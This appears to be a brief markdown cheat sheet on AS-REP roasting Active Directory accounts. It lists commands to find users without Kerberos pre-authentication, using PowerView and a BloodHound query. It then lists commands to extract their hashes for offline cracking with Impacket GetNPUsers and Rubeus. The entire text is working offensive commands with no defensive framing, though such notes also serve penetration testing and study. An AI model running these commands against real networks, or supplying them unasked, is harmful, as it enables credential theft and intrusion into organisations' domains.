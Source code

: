 # ASREPRoast

## Tools: Rubeus , Impacket-GetNPUsers

### ASREPRoast

## Find ASREPRoastable users (need creds)

 - Get-DomainUser -PreauthNotRequired -Properties SamAccountName

 - MATCH(u:User {dontreqpreauth:true}). (c:Computer). p=shortestPath((u)-[*1..]->(c)) RETURN p (Bloodhound cypher query)

## Find ASREP hash

 - Impacket-GetNPUsers DOMAIN/ -usersfile USERNAMES.TXT -format hashcat -outputfile HASHES.DOMAIN.TXT

 - Rubeus.exe asreproast /format:hashcat


